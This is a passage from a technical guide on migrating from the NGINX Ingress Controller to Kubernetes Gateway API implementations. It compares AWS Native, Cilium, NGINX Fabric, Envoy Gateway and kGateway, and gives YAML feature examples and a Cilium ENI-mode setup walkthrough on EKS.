- Reusable existing NGINX expertise
- Familiar annotation patterns
- Gradual migration support

**Enterprise Support**
- F5/NGINX official support
- 24/7 incident response
- Security patch guarantee
- Performance tuning assistance

#### Advantages

| Feature | Benefit |
|---------|---------|
| **Stability** | Production-proven over decades |
| **Easy Migration** | Smooth transition from NGINX Ingress |
| **Expertise Reuse** | Leverage existing NGINX knowledge |
| **Enterprise Support** | F5 official support available |
| **Predictability** | Predictable performance/behavior |

#### Disadvantages

| Limitation | Impact |
|------------|--------|
| **Limited Performance** | Lower than eBPF-based solutions |
| **NGINX Lock-in** | Depends on NGINX-specific features |
| **License Costs** | NGINX Plus requires commercial license |
| **Feature Parity Delay** | Gateway API feature adoption slower |

#### Cost Model

```yaml
# NGINX Gateway Fabric cost model
NGINX OSS (Free):
  License: $0
  Support: Community only
  Features: Basic Gateway API

NGINX Plus (Enterprise):
  License: ~$2,500/instance/year
  Support: 24/7 F5 support
  Features: Advanced load balancing, JWT auth, active health checks

Total Cost of Ownership (3-node cluster):
  OSS: $0 (only infrastructure costs)
  Plus: $7,500/year + infrastructure
```

#### When to Choose

- ✅ Currently using NGINX Ingress
- ✅ Team has NGINX expertise
- ✅ Want proven stability over cutting-edge features
- ✅ Need fast migration path
- ✅ Need commercial support
- ❌ Need ultra-high performance
- ❌ Want advanced observability features
- ❌ Plan multi-cloud architecture

### 5.4 Envoy Gateway

#### Overview

**Envoy Gateway** is a Gateway API implementation based on Envoy Proxy, an official CNCF project.

#### Key Features

**Rich L7 Features**
- Advanced routing (header, cookie, query)
- Rate limiting (global/local)
- External authentication (ExtAuth)
- Request/response transformation
- Circuit breaking

**Service Mesh Integration**
- Istio compatibility
- Linkerd integration
- GAMMA pattern support
- East-West traffic management

**Extensibility**
- Envoy Filter integration
- Lua scripting
- WASM plugin support
- Custom control plane extensions

#### Advantages

| Feature | Benefit |
|---------|---------|
| **CNCF Official** | Vendor-neutral, community-driven |
| **Rich Features** | Most comprehensive L7 feature set |
| **Mesh Ready** | Seamless Istio/Linkerd integration |
| **Extensible** | WASM/Lua plugin ecosystem |
| **Battle-Tested** | Envoy powers major platforms (AWS, Google, etc.) |

#### Disadvantages

| Limitation | Impact |
|------------|--------|
| **Complexity** | Steep learning curve for Envoy |
| **Resource Usage** | Higher memory usage than NGINX |
| **Operational Burden** | Requires Envoy expertise |
| **Configuration Verbosity** | More YAML than simpler solutions |

#### Performance Metrics

```yaml
# Envoy Gateway benchmark (c5.2xlarge instance)
Latency:
  P50: 3.1ms
  P95: 6.8ms
  P99: 12.5ms

Throughput:
  HTTP RPS: 85,000 per node
  gRPC RPS: 75,000 per node

Resource Usage:
  Memory: 250MB base + 1MB per 1000 connections
  CPU: 0.3 cores idle, 2.5 cores at 50k RPS
```

#### When to Choose

- ✅ Plan service mesh adoption (Istio/Linkerd)
- ✅ Need rich L7 features
- ✅ Want CNCF standard compliance
- ✅ Need extensibility (WASM plugins)
- ✅ Have Envoy expertise
- ❌ Need simplest solution
- ❌ Have resource constraints
- ❌ Lack operational expertise

### 5.5 kGateway (Solo.io)

#### Overview

**kGateway** (formerly Gloo Gateway) is Solo.io's enterprise-grade API gateway with Gateway API support.

#### Key Features

**AI/ML Routing**
- LLM model selection and load balancing
- Token-based rate limiting
- Prompt injection protection
- Cost optimization routing

**Unified Gateway**
- Ingress + Mesh + API Gateway
- GraphQL routing
- WebSocket support
- Event-driven architectures

**Enterprise Features**
- Developer portal
- API lifecycle management
- Advanced authentication (OAuth2, OIDC, JWT)
- Multi-tenancy support

#### Advantages

| Feature | Benefit |
|---------|---------|
| **AI-Ready** | LLM/AI workload native support |
| **Unified Platform** | Single solution for ingress/mesh/API |
| **Enterprise Support** | Solo.io 24/7 support |
| **Future-Proof** | Early adoption of emerging standards |

#### Disadvantages

| Limitation | Impact |
|------------|--------|
| **License Costs** | Enterprise features require license |
| **Smaller Community** | Smaller than NGINX/Envoy communities |
| **Vendor Dependency** | Solo.io-specific features |

#### Cost Model

```yaml
# kGateway pricing (estimated)
Open Source:
  License: $0
  Features: Basic Gateway API
  Support: Community

Enterprise:
  License: Custom pricing (contact sales)
  Features: AI routing, developer portal, advanced auth
  Support: 24/7 Solo.io support
```

#### When to Choose

- ✅ Need AI/ML workload routing
- ✅ Want unified gateway platform
- ✅ Need enterprise support
- ✅ Building API-first architecture
- ❌ Have tight budget constraints
- ❌ Prefer larger community ecosystems

### 5.6 Comprehensive Comparison Table

| Feature | AWS Native | Cilium | NGINX Fabric | Envoy GW | kGateway |
|---------|-----------|--------|-------------|----------|----------|
| **Performance** | Medium | Best | Medium | Good | Good |
| **Cost** | $$$$ | $ | $$ | $ | $$$ |
| **Operational Complexity** | Low | High | Low | Medium | Medium |
| **L7 Features** | Basic | Good | Good | Best | Best |
| **Observability** | CloudWatch | Hubble (Best) | Basic | Metrics | Good |
| **Multi-Cloud** | ❌ | ✅ | ✅ | ✅ | ✅ |
| **Service Mesh** | ❌ | ✅ GAMMA | ❌ | ✅ Istio | ✅ Unified |
| **AI/ML Support** | ❌ | ❌ | ❌ | ❌ | ✅ |
| **Enterprise Support** | AWS | Isovalent | F5/NGINX | Envoy/CNCF | Solo.io |
| **Learning Curve** | Low | High | Low | Medium | Medium |
| **Community** | AWS Docs | Large (CNCF) | Large | Large (CNCF) | Medium |

### 5.7 Decision Matrix

The following are recommended solutions based on common organizational scenarios.

| Scenario | First Choice | Second Choice | Reason |
|----------|-------------|---------------|---------|
| **AWS All-In + Minimal Operations** | AWS Native | Cilium | Managed, SLA guarantee, small ops team |
| **High Performance + Observability** | Cilium | Envoy GW | eBPF best performance, Hubble Service Map |
| **NGINX Experience + Multi-Cloud** | NGINX Fabric | Envoy GW | Leverage existing NGINX knowledge, cloud-neutral |
| **CNCF + Service Mesh** | Envoy GW | kGateway | Istio compatible, CNCF standards compliance |
| **AI/ML + Unified Gateway** | kGateway | Cilium | AI routing, MCP Gateway, future-oriented |
| **Financial/Healthcare Security** | AWS Native | Cilium | WAF, Shield, audit trails, compliance |
| **Startup + Cost Optimization** | Cilium | NGINX/Envoy | Fixed costs, avoid vendor lock-in |
| **Hybrid/Multi-Cluster** | Cilium | kGateway | BGP Control Plane, multi-site mesh |
| **Fast PoC (Validation)** | AWS Native | NGINX Fabric | Quick setup, managed, proven stability |
| **Long-Term Strategic Investment** | Cilium | Envoy GW | eBPF future technology, CNCF ecosystem |

---

## 6. NGINX Feature Alternatives Comparison

This section provides detailed comparisons of how to implement 8 major NGINX Ingress Controller features in Gateway API solutions.

### 6.1 Comprehensive Feature Mapping Table

| # | NGINX Feature | AWS Native | Cilium | NGINX Fabric | Envoy GW | kGateway |
|---|---------------|------------|--------|-------------|----------|----------|
| 1 | Basic Auth | Lambda/JWT | L7 Policy | OIDC Policy | ExtAuth | JWT/OIDC |
| 2 | IP Allowlist | WAF IP Sets + SG | CiliumNetworkPolicy | NginxProxy | SecurityPolicy | RouteOption |
| 3 | Rate Limiting | WAF Rate Rule | L7 Rate Limit | NginxProxy | BackendTrafficPolicy | RouteOption |
| 4 | URL Rewrite | HTTPRoute Filter | HTTPRoute Filter | HTTPRoute Filter | HTTPRoute Filter | HTTPRoute Filter |
| 5 | Body Size | WAF Size Rule | - | NginxProxy | ClientTrafficPolicy | RouteOption |
| 6 | Custom Error | ALB Fixed Response | - | Custom Backend | Direct Response | DirectResponse |
| 7 | Header Routing | HTTPRoute matches | HTTPRoute matches | HTTPRoute matches | HTTPRoute matches | HTTPRoute matches |
| 8 | Cookie Affinity | TG Stickiness | - | Upstream Config | Session Persistence | RouteOption |

**Legend**:
- ✅ Native support (no additional tools needed)
- ⚠️ Partial support or additional configuration required
- ❌ Unsupported (separate solution needed)
- `-` Currently unsupported but included in roadmap

### 6.2 Implementation Difficulty Comparison

Evaluation of difficulty when implementing NGINX features in each solution.

| Feature | AWS Native | Cilium | NGINX Fabric | Envoy GW | kGateway |
|---------|-----------|--------|-------------|----------|----------|
| **Basic Auth** | Medium | Medium | Easy | Medium | Easy |
| **IP Allowlist** | Easy | Easy | Easy | Easy | Easy |
| **Rate Limiting** | Medium | Medium | Easy | Easy | Easy |
| **URL Rewrite** | Easy | Easy | Easy | Easy | Easy |
| **Body Size** | Medium | Hard | Easy | Easy | Easy |
| **Custom Error** | Easy | Hard | Medium | Easy | Easy |
| **Header Routing** | Easy | Easy | Easy | Easy | Easy |
| **Cookie Affinity** | Easy | Hard | Easy | Medium | Easy |

**Difficulty Criteria**:
- **Easy**: Under 5 minutes, 5-10 lines of YAML
- **Medium**: 15-30 minutes, 20-50 lines of YAML, external service integration required
- **Hard**: 1+ hour, custom development or complex configuration

### 6.3 Cost Impact Analysis

Analyzing cost impact per feature when migrating from NGINX Ingress Controller to Gateway API.

#### AWS Native Additional Costs

| Feature | AWS Native Additional Cost | Estimated Monthly Cost |
|---------|---------------------------|------------------------|
| **Basic Auth** | Lambda execution cost | ~$2-10 (based on 1M requests) |
| **IP Allowlist** | WAF IP Set + rules | $5 (Web ACL) + $1 (rule) = $6 |
| **Rate Limiting** | WAF Rate-Based Rule | $5 (Web ACL) + $1 (rule) + $0.60/million requests |
| **Body Size** | WAF Body Size Rule | Included in WAF cost |
| **WAF Total** | Web ACL + rules + requests | ~$20-100/month (depending on traffic) |

**Cost Optimization Tip**: If you need 3+ features requiring AWS WAF (IP Allowlist, Rate Limiting, Body Size), AWS Native is cost-effective. For only 1-2 features, open-source solutions are cheaper.

#### Open Source Additional Costs

| Feature | Open Source Additional Cost |
|---------|----------------------------|
| Basic Auth | None (self-implemented) |
| IP Allowlist | None (NetworkPolicy) |
| Rate Limiting | None (L7 Policy) |
| Body Size | None (Proxy Config) |
| All Features | None (only compute resources) |

:::tip Cost Optimization Tip
If you need 3+ features requiring AWS WAF (IP Allowlist, Rate Limiting, Body Size), AWS Native is cost-effective relative to WAF costs. For only 1-2 features, open-source solutions can implement them for free.
:::

### 6.4 Detailed Code Examples by Feature

#### 1. Authentication (Basic Auth Alternative)

**AWS Native: JWT Validation (LBC v3)**

```yaml
# AWS LBC v3's native JWT validation
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: jwt-protected-route
  namespace: production
spec:
  parentRefs:
    - name: production-gateway
  rules:
    - matches:
        - path:
            type: PathPrefix
            value: /api
      filters:
        - type: ExtensionRef
          extensionRef:
            group: eks.amazonaws.com
            kind: JWTAuthorizer
            name: cognito-authorizer
      backendRefs:
        - name: api-service
          port: 8080

---
# JWTAuthorizer CRD (LBC v3 extension)
apiVersion: eks.amazonaws.com/v1
kind: JWTAuthorizer
metadata:
  name: cognito-authorizer
spec:
  issuer: https://cognito-idp.us-west-2.amazonaws.com/us-west-2_ABC123
  audiences:
    - api-gateway-client
  claimsToHeaders:
    - claim: sub
      header: x-user-id
    - claim: email
      header: x-user-email
```

**Envoy Gateway: ExtAuth**

```yaml
apiVersion: gateway.envoyproxy.io/v1alpha1
kind: SecurityPolicy
metadata:
  name: ext-auth
  namespace: production
spec:
  targetRefs:
    - group: gateway.networking.k8s.io
      kind: HTTPRoute
      name: api-route
  extAuth:
    http:
      service:
        name: auth-service
        port: 8080
        # auth-service returns HTTP 200 or 401
      headersToBackend:
        - x-user-id
        - x-user-role
      backendRefs:
        - name: auth-service
          port: 8080
```

**kGateway: JWT Validation**

```yaml
apiVersion: gateway.kgateway.io/v1alpha1
kind: RouteOption
metadata:
  name: jwt-auth
  namespace: production
spec:
  targetRefs:
    - group: gateway.networking.k8s.io
      kind: HTTPRoute
      name: api-route
  jwt:
    providers:
      - name: keycloak
        issuer: https://keycloak.example.com/auth/realms/production
        audiences:
          - api-gateway
        jwksUri: https://keycloak.example.com/auth/realms/production/protocol/openid-connect/certs
        claimsToHeaders:
          - claim: sub
            header: x-user-id
          - claim: groups
            header: x-user-groups
```

#### 2. Rate Limiting

**NGINX Gateway Fabric**

```yaml
apiVersion: gateway.nginx.org/v1alpha1
kind: NginxProxy
metadata:
  name: rate-limiting-config
spec:
  rateLimiting:
    key: ${binary_remote_addr}
    zoneSize: 10m
    rate: 10r/s  # 10 requests per second per IP
```

**Cilium**

```yaml
apiVersion: cilium.io/v2
kind: CiliumNetworkPolicy
metadata:
  name: api-rate-limit
spec:
  endpointSelector:
    matchLabels:
      app: api-gateway
  ingress:
  - toPorts:
    - ports:
      - port: "80"
      rules:
        http:
        - method: "GET"
          path: "/api/.*"
          rateLimit:
            requestsPerSecond: 100
            burst: 150
```

**Envoy Gateway**

```yaml
apiVersion: gateway.envoyproxy.io/v1alpha1
kind: BackendTrafficPolicy
metadata:
  name: rate-limit
spec:
  targetRefs:
    - group: gateway.networking.k8s.io
      kind: HTTPRoute
      name: api-route
  rateLimit:
    type: Global
    global:
      rules:
        - limit:
            requests: 1000
            unit: Second
```

#### 3. IP Allowlist

**AWS Native**

```yaml
apiVersion: gateway.networking.k8s.io/v1
kind: Gateway
metadata:
  name: production-gateway
  annotations:
    # Associate WAF Web ACL
    alb.ingress.kubernetes.io/wafv2-acl-arn: arn:aws:wafv2:us-west-2:123456789012:regional/webacl/api-acl/a1b2c3d4
spec:
  gatewayClassName: aws-alb
  listeners:
  - name: http
    port: 80
    protocol: HTTP

---
# AWS WAF IP Set (created via AWS Console or CLI)
# IP allowlist: 203.0.113.0/24, 198.51.100.0/24
```

**Cilium**

```yaml
apiVersion: cilium.io/v2
kind: CiliumNetworkPolicy
metadata:
  name: ip-allowlist
spec:
  endpointSelector:
    matchLabels:
      app: api-gateway
  ingress:
  - fromCIDR:
    - 203.0.113.0/24
    - 198.51.100.0/24
    toPorts:
    - ports:
      - port: "80"
        protocol: TCP
```

#### 4. URL Rewrite

**Standard Gateway API (All Implementations)**

```yaml
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: url-rewrite
spec:
  rules:
  - matches:
    - path:
        type: PathPrefix
        value: /old-api
    filters:
    - type: URLRewrite
      urlRewrite:
        path:
          type: ReplacePrefixMatch
          replacePrefixMatch: /new-api
    backendRefs:
    - name: api-service
      port: 8080
```

#### 5. Request Body Size Limit

**AWS Native (WAF)**

```yaml
# AWS WAF Rule for body size limit
# Created via AWS Console or CLI
# Rule: Block requests with body size > 8KB
```

**NGINX Gateway Fabric**

```yaml
apiVersion: gateway.nginx.org/v1alpha1
kind: NginxProxy
metadata:
  name: body-size-limit
spec:
  clientMaxBodySize: 8m  # 8MB limit
```

**Envoy Gateway**

```yaml
apiVersion: gateway.envoyproxy.io/v1alpha1
kind: ClientTrafficPolicy
metadata:
  name: body-size-limit
spec:
  targetRefs:
    - group: gateway.networking.k8s.io
      kind: Gateway
      name: production-gateway
  http:
    maxRequestBodySize: 8388608  # 8MB in bytes
```

#### 6. Custom Error Pages

**AWS Native (ALB Fixed Response)**

```yaml
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: custom-error
spec:
  rules:
  - matches:
    - path:
        type: PathPrefix
        value: /maintenance
    filters:
    - type: ExtensionRef
      extensionRef:
        group: alb.networking.aws.com
        kind: FixedResponse
        name: maintenance-page
---
apiVersion: alb.networking.aws.com/v1
kind: FixedResponse
metadata:
  name: maintenance-page
spec:
  statusCode: 503
  contentType: text/html
  body: |
    <html>
      <body>
        <h1>Under Maintenance</h1>
        <p>We'll be back soon!</p>
      </body>
    </html>
```

**Envoy Gateway**

```yaml
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: custom-error
spec:
  rules:
  - matches:
    - path:
        type: PathPrefix
        value: /error
    filters:
    - type: ExtensionRef
      extensionRef:
        group: gateway.envoyproxy.io
        kind: DirectResponse
        name: error-response
---
apiVersion: gateway.envoyproxy.io/v1alpha1
kind: DirectResponse
metadata:
  name: error-response
spec:
  statusCode: 503
  body: "Service temporarily unavailable"
```

#### 7. Header-Based Routing

**Standard Gateway API (All Implementations)**

```yaml
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: header-routing
spec:
  rules:
  # Route to beta backend for beta users
  - matches:
    - headers:
      - name: X-User-Type
        value: beta
    backendRefs:
    - name: beta-backend
      port: 8080

  # Route to production backend for others
  - backendRefs:
    - name: prod-backend
      port: 8080
```

#### 8. Session Affinity (Cookie-Based)

**AWS Native (ALB Target Group Stickiness)**

```yaml
apiVersion: gateway.networking.k8s.io/v1
kind: Gateway
metadata:
  name: production-gateway
  annotations:
    # Enable ALB stickiness
    alb.ingress.kubernetes.io/target-group-attributes: stickiness.enabled=true,stickiness.lb_cookie.duration_seconds=86400
spec:
  gatewayClassName: aws-alb
  listeners:
  - name: http
    port: 80
    protocol: HTTP
```

**NGINX Gateway Fabric**

```yaml
apiVersion: gateway.nginx.org/v1alpha1
kind: UpstreamSettingsPolicy
metadata:
  name: session-affinity
spec:
  targetRef:
    group: ""
    kind: Service
    name: backend-service
  sessionAffinity:
    cookieName: BACKEND_SESSION
    cookieExpires: 1h
```

**Envoy Gateway**

```yaml
apiVersion: gateway.envoyproxy.io/v1alpha1
kind: BackendTrafficPolicy
metadata:
  name: session-affinity
spec:
  targetRefs:
    - group: gateway.networking.k8s.io
      kind: HTTPRoute
      name: api-route
  loadBalancer:
    type: ConsistentHash
    consistentHash:
      type: Cookie
      cookie:
        name: SESSION_COOKIE
        ttl: 3600s
```

### 6.5 Migration Checklist

Use this checklist when migrating from NGINX Ingress to Gateway API:

#### Pre-Migration Audit

- [ ] Inventory all NGINX Ingress resources
- [ ] Document all custom annotations used
- [ ] Identify features used (auth, rate limiting, rewrite, etc.)
- [ ] Check TLS certificate management method
- [ ] Review custom ConfigMaps and snippets

#### Gateway API Resource Creation

- [ ] Create GatewayClass
- [ ] Create Gateway (listeners, TLS)
- [ ] Migrate HTTPRoute (routing rules)
- [ ] Implement authentication (JWT/OAuth)
- [ ] Configure rate limiting
- [ ] Set up IP allowlists
- [ ] Configure URL rewrites
- [ ] Implement custom error pages
- [ ] Set session affinity

#### Testing

- [ ] Functional testing (all routes working)
- [ ] Performance testing (latency, throughput)
- [ ] Security testing (auth, IP filtering)
- [ ] Failure simulation (backend down, network disconnection)
- [ ] Rollback plan development

#### Production Deployment

- [ ] Blue-Green or Canary deployment strategy
- [ ] Monitoring and alerting setup (Prometheus, CloudWatch)
- [ ] Gradual traffic transition (Weight adjustment)
- [ ] Operations documentation update
- [ ] Team training completion

## 7. Cilium ENI Mode + Gateway API Advanced Configuration

### 7.1 What is Cilium ENI Mode?

Cilium ENI mode is a high-performance networking solution that directly leverages AWS's Elastic Network Interface to allocate VPC IP addresses to pods. Unlike traditional overlay networks, ENI mode provides the following features.

#### Key Features

**Direct AWS ENI Usage**<br/>
Each pod receives an actual VPC IP address, fully integrating with the AWS network stack. This enables direct pod-level usage of AWS native networking features such as Security Groups, NACLs, and VPC Flow Logs.

**eBPF-Based High-Performance Networking**<br/>
Cilium leverages Linux kernel's eBPF (extended Berkeley Packet Filter) technology to perform packet processing at the kernel level. This provides 10x+ performance improvement over traditional iptables-based solutions while minimizing CPU overhead.



**Native Routing (Eliminates Overlay Overhead)**<br/>
Uses VPC routing tables directly without overlay encapsulation like VXLAN or Geneve. This minimizes network hops and fundamentally prevents MTU issues.

:::tip
Cilium ENI mode is the recommended configuration for achieving best performance on AWS EKS. According to Datadog's benchmarks, ENI mode reduces latency by 40% and improves throughput by 35% compared to overlay mode.
:::

### 7.2 Architecture Overview

The architecture combining Cilium ENI mode and Gateway API is configured as follows.



#### Major Components

**1. Network Load Balancer (NLB)**
- AWS managed L4 load balancer
- Extremely low latency (microsecond level)
- Cross-Zone Load Balancing support
- Static IP or Elastic IP assignment possible
- TLS passthrough mode support

**2. eBPF TPROXY (Transparent Proxy)**
- Packet interception at XDP (eXpress Data Path) layer
- Ultra-low latency processing via kernel bypass
- Connection tracking table managed as eBPF maps
- Independent processing per CPU core (lock-free design)

**3. Cilium Envoy (L7 Gateway)**
- Envoy Proxy-based L7 processing engine
- Implements Gateway API resources like HTTPRoute, TLSRoute
- Dynamic listener/route configuration (xDS API)
- Request/response transformation, header manipulation, rate limiting

**4. Cilium Operator**
- ENI creation and deletion orchestration
- IP address pool management (including Prefix Delegation)
- Cluster-wide policy synchronization
- CiliumNode CRD status management

**5. Cilium Agent (DaemonSet)**
- Load and manage eBPF programs on each node
- CNI plugin implementation
- Endpoint status tracking
- Network policy enforcement

**6. ENI (Elastic Network Interface)**
- AWS VPC network interface
- Maximum ENI count limit per instance type (e.g., m5.large = 3)
- Maximum IP count per ENI (e.g., m5.large = 10/ENI)
- When using Prefix Delegation, maximum 16 /28 blocks per ENI

**7. Hubble (Observability)**
- Real-time network flow visualization
- Automatic service dependency map generation
- L7 protocol visibility (HTTP, gRPC, Kafka, DNS)
- Prometheus metrics export

#### Traffic Flow 4 Stages



**Stage 1: L4 Load Balancing (NLB)**
- Receives client's TCP connection request
- Selects healthy node based on Target Group health check status
- Maintains connection persistence with Flow Hash algorithm (5-tuple based)

**Stage 2: Transparent Proxy (eBPF TPROXY)**
- XDP hook intercepts packet at network driver level
- Updates eBPF connection tracking map (O(1) lookup)
- Redirects to local Cilium Envoy (same node)
- No kernel stack traversal (ultra-low latency)

**Stage 3: L7 Routing (Cilium Envoy)**
- HTTPRoute rule matching (path, header, method)
- Rate limiting, authentication policy enforcement
- Request transformation (header add/remove, URL rewrite)
- Backend selection (weighted load balancing)

**Stage 4: Native Routing (ENI Direct)**
- Direct forwarding to pod's ENI IP (no VXLAN/Geneve)
- VPC routing table-based forwarding
- Security Group enforcement at pod level
- Hubble records all flows (L3/L4/L7 metadata)

### 7.3 Installation and Configuration

#### Prerequisites

```bash
# Required tools
- eksctl >= 0.167.0
- kubectl >= 1.28
- helm >= 3.12
- AWS CLI >= 2.13

# AWS permissions required
- ec2:CreateNetworkInterface
- ec2:AttachNetworkInterface
- ec2:DeleteNetworkInterface
- ec2:DescribeNetworkInterfaces
- ec2:AssignPrivateIpAddresses
```

#### Step 1: Create EKS Cluster with ENI Mode

```bash
# Create EKS cluster without AWS VPC CNI
eksctl create cluster \
  --name cilium-gateway-demo \
  --region us-west-2 \
  --version 1.32 \
  --nodegroup-name workers \
  --node-type m5.xlarge \
  --nodes 3 \
  --without-nodegroup \
  --vpc-cidr 10.0.0.0/16

# Create node group after disabling AWS VPC CNI
kubectl -n kube-system delete daemonset aws-node

eksctl create nodegroup \
  --cluster cilium-gateway-demo \
  --name cilium-workers \
  --node-type m5.xlarge \
  --nodes 3 \
  --nodes-min 3 \
  --nodes-max 6 \
  --node-labels role=worker
```

#### Step 2: Install Cilium with ENI Mode

```bash
# Add Cilium Helm repository
helm repo add cilium https://helm.cilium.io/
helm repo update

# Install Cilium with ENI mode
helm install cilium cilium/cilium \
  --version 1.19.0 \
  --namespace kube-system \
  --set eni.enabled=true \
  --set ipam.mode=eni \
  --set eni.updateEC2AdapterLimitViaAPI=true \
  --set eni.awsEnablePrefixDelegation=true \
  --set tunnel=disabled \
  --set gatewayAPI.enabled=true \
  --set kubeProxyReplacement=true \
  --set k8sServiceHost=<API_SERVER_ENDPOINT> \
  --set k8sServicePort=443

# Wait for Cilium to be ready
kubectl -n kube-system rollout status ds/cilium
```

**Key Configuration Options:**

| Option | Value | Description |
|--------|-------|-------------|
| `eni.enabled` | true | Enable ENI mode |
| `ipam.mode` | eni | Use ENI IPAM |
| `eni.updateEC2AdapterLimitViaAPI` | true | Auto-discover ENI limits via AWS API |
| `eni.awsEnablePrefixDelegation` | true | Use /28 prefix delegation (16 IPs per prefix) |
| `tunnel` | disabled | Disable overlay (native routing) |
| `gatewayAPI.enabled` | true | Enable Gateway API support |
| `kubeProxyReplacement` | true | Replace kube-proxy with eBPF |

#### Step 3: Install Gateway API CRDs

```bash
# Install Gateway API v1.4.0 CRDs
kubectl apply -f https://github.com/kubernetes-sigs/gateway-api/releases/download/v1.4.0/standard-install.yaml

# Verify CRDs installed
kubectl get crd | grep gateway.networking.k8s.io
```

#### Step 4: Create GatewayClass

```yaml
apiVersion: gateway.networking.k8s.io/v1
kind: GatewayClass
metadata:
  name: cilium
spec:
  controllerName: io.cilium/gateway-controller
```

#### Step 5: Create Gateway with NLB

```yaml
apiVersion: gateway.networking.k8s.io/v1
kind: Gateway
metadata:
  name: production-gateway
  namespace: gateway-system
  annotations:
    # Use AWS NLB
    service.beta.kubernetes.io/aws-load-balancer-type: "nlb"
    # Enable cross-zone load balancing
    service.beta.kubernetes.io/aws-load-balancer-cross-zone-load-balancing-enabled: "true"
    # Allocate Elastic IP
    service.beta.kubernetes.io/aws-load-balancer-eip-allocations: eipalloc-xxxxx,eipalloc-yyyyy
spec:
  gatewayClassName: cilium
  listeners:
  - name: https
    protocol: HTTPS
    port: 443
    hostname: "*.example.com"
    tls:
      mode: Terminate
      certificateRefs:
      - name: tls-cert
        kind: Secret
```

#### Step 6: Deploy Sample Application

```yaml
apiVersion: apps/v1
kind: Deployment
metadata:
  name: echo-server
  namespace: default
spec:
  replicas: 3
  selector:
    matchLabels:
      app: echo
  template:
    metadata:
      labels:
        app: echo
    spec:
      containers:
      - name: echo
        image: ealen/echo-server:latest
        ports:
        - containerPort: 80
---
apiVersion: v1
kind: Service
metadata:
  name: echo-service
spec:
  selector:
    app: echo
  ports:
  - port: 80
    targetPort: 80
```

#### Step 7: Create HTTPRoute

```yaml
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: echo-route
  namespace: default
spec:
  parentRefs:
  - name: production-gateway
    namespace: gateway-system
    sectionName: https
  hostnames:
  - "echo.example.com"
  rules:
  - matches:
    - path:
        type: PathPrefix
        value: /
    backendRefs:
    - name: echo-service
      port: 80
```

#### Step 8: Verification

```bash
# Check Gateway status
kubectl get gateway -n gateway-system

# Get NLB endpoint
NLB_ENDPOINT=$(kubectl get svc -n gateway-system -l "gateway.networking.k8s.io/gateway-name=production-gateway" -o jsonpath='{.items[0].status.loadBalancer.ingress[0].hostname}')

# Test routing
curl -H "Host: echo.example.com" https://$NLB_ENDPOINT/

# View Hubble flows
kubectl exec -n kube-system ds/cilium -- hubble observe --follow
```

### 7.4 Performance Optimization

#### ENI Prefix Delegation Configuration

Prefix Delegation allows allocating 16 IP addresses (/28 block) per ENI, dramatically increasing pod density.

```yaml
# Cilium ConfigMap
apiVersion: v1
kind: ConfigMap
metadata:
  name: cilium-config
  namespace: kube-system
data:
  # Enable prefix delegation
  enable-ipv4: "true"
  ipam: "eni"
  eni-tags: "cluster=production"
  aws-enable-prefix-delegation: "true"

  # Pre-allocate ENI/IP
  eni-max-above-watermark: "2"
  eni-min-allocate: "10"

  # Release unused ENI
  eni-gc-interval: "5m"
  eni-gc-tags: "cluster=production,state=available"
```

**Benefits:**
- **Before**: m5.xlarge (3 ENI × 15 IP) = 45 pods max
- **After**: m5.xlarge (3 ENI × 16 prefix × 16 IP) = 768 pods max

#### eBPF Host Routing Optimization

```bash
# Enable eBPF host routing
helm upgrade cilium cilium/cilium \
  --namespace kube-system \
  --reuse-values \
  --set bpf.hostRouting=true \
  --set bpf.masquerade=true
```

**Benefits:**
- Direct routing via eBPF (no iptables)
- 50% latency reduction
- 40% CPU usage reduction

#### XDP Acceleration

```bash
# Enable XDP acceleration (requires kernel 5.10+)
helm upgrade cilium cilium/cilium \
  --namespace kube-system \
  --reuse-values \
  --set loadBalancer.acceleration=native \
  --set loadBalancer.mode=dsr
```

**Benefits:**
- Packet processing at network driver level
- P99 latency under 5ms
- 2x throughput improvement

### 7.5 Observability with Hubble

#### Install Hubble UI

```bash
# Enable Hubble and UI
helm upgrade cilium cilium/cilium \
  --namespace kube-system \
  --reuse-values \
  --set hubble.enabled=true \
  --set hubble.relay.enabled=true \
  --set hubble.ui.enabled=true

# Port forward Hubble UI
kubectl port-forward -n kube-system svc/hubble-ui 12000:80

# Access: http://localhost:12000
```

#### Hubble CLI Observability

```bash
# Install Hubble CLI
HUBBLE_VERSION=$(curl -s https://raw.githubusercontent.com/cilium/hubble/master/stable.txt)
curl -L --remote-name-all https://github.com/cilium/hubble/releases/download/$HUBBLE_VERSION/hubble-linux-amd64.tar.gz
tar zxf hubble-linux-amd64.tar.gz
sudo mv hubble /usr/local/bin

# Port forward Hubble Relay
kubectl port-forward -n kube-system svc/hubble-relay 4245:80

# Observe flows
hubble observe --server localhost:4245

# Filter by namespace
hubble observe --namespace default

# Filter by label
hubble observe --from-label app=frontend --to-label app=backend

# View L7 HTTP flows
hubble observe --protocol http

# DNS query visibility
hubble observe --protocol dns
```

#### Service Map Visualization

```bash
# Generate service dependency graph
hubble observe --namespace default -o json | \
  jq -r '[.source.labels[] as $s | .destination.labels[] as $d | "\($s) -> \($d)"]' | \
  sort | uniq

# Example output:
# app=frontend -> app=backend
# app=backend -> app=database
# app=gateway -> app=frontend
```

### 7.6 Production Best Practices

#### 1. ENI Quota Management

```bash
# Check current ENI limits
aws service-quotas get-service-quota \
  --service-code ec2 \
  --quota-code L-DF5E4CA3 \
  --region us-west-2

# Request quota increase if needed
aws service-quotas request-service-quota-increase \
  --service-code ec2 \
  --quota-code L-DF5E4CA3 \
  --desired-value 5000 \
  --region us-west-2
```

#### 2. Security Group Optimization

```yaml
# Apply Security Group per pod
apiVersion: v1
kind: Pod
metadata:
  name: secure-pod
  annotations:
    vpc.amazonaws.com/security-groups: "sg-xxxxx"
spec:
  containers:
  - name: app
    image: nginx
```

#### 3. Monitoring Alerts

```yaml
# Prometheus alerts for Cilium
apiVersion: v1
kind: ConfigMap
metadata:
  name: cilium-alerts
  namespace: kube-system
data:
  cilium.rules: |
    groups:
    - name: cilium
      rules:
      # ENI allocation failure
      - alert: CiliumENIAllocationFailure
        expr: rate(cilium_operator_eni_allocation_failure_total[5m]) > 0
        annotations:
          summary: "ENI allocation failing"

      # High packet drop rate
      - alert: CiliumHighPacketDrop
